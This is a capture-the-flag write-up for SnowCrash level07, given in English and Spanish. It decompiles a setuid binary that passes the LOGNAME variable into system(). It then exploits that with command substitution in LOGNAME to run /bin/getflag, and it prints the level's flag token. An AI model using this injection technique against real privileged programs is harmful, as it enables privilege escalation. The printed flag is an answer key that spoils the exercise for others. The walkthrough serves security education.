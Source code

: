### LEVEL07

- I enter and find a binary named `level07`.
- I download the file locally.
    ```bash
    scp -P 4242 level07@192.168.1.36:~/home/user/level07/level07 . 
    ```
- Open with Ghidra
    ```c
    int main(int argc,char **argv,char **envp)

    {
      char *pcVar1;
      int iVar2;
      char *buffer;
      gid_t gid;
      uid_t uid;
      char *local_1c;
      __gid_t local_18;
      __uid_t local_14;
      
      local_18 = getegid();
      local_14 = geteuid();
      setresgid(local_18,local_18,local_18);
      setresuid(local_14,local_14,local_14);
      local_1c = (char *)0x0;
      pcVar1 = getenv("LOGNAME");
      asprintf(&local_1c,"/bin/echo %s ",pcVar1);
      iVar2 = system(local_1c);
      return iVar2;
    }
- The binary executes an echo on the value of the environment variable "LOGNAME."
- I attempt to inject a command into the variable.
    ```bash
    level07@SnowCrash:~$ export LOGNAME='$(echo "HOLA")'
    level07@SnowCrash:~$ ./level07
    HOLA
    ```
- I have the output from the execution of a command.
    ```bash
    level07@SnowCrash:~$ export LOGNAME='$(/bin/getflag)'
    level07@SnowCrash:~$ ./level07
    Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
    ```

---

### LEVEL07

- Entro y encuentro un binario `level07`
- Descargo el fichero en local
    ```bash
    scp -P 4242 level07@192.168.1.36:~/home/user/level07/level07 . 
    ```
- Abro con Ghidra
    ```c
    int main(int argc,char **argv,char **envp)

    {
      char *pcVar1;
      int iVar2;
      char *buffer;
      gid_t gid;
      uid_t uid;
      char *local_1c;
      __gid_t local_18;
      __uid_t local_14;
      
      local_18 = getegid();
      local_14 = geteuid();
      setresgid(local_18,local_18,local_18);
      setresuid(local_14,local_14,local_14);
      local_1c = (char *)0x0;
      pcVar1 = getenv("LOGNAME");
      asprintf(&local_1c,"/bin/echo %s ",pcVar1);
      iVar2 = system(local_1c);
      return iVar2;
    }
    ```

- Está el binario ejecuta un echo sobre el valor de la variable de entrono "LOGNAME"
- Intento inyectar un commando en la variable
    ```bash
    level07@SnowCrash:~$ export LOGNAME='$(echo "HOLA")'
    level07@SnowCrash:~$ ./level07
    HOLA
    ```
- Tengo salida de la ejecución de un comandos
    ```bash
    level07@SnowCrash:~$ export LOGNAME='$(/bin/getflag)'
    level07@SnowCrash:~$ ./level07
    Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
    ```

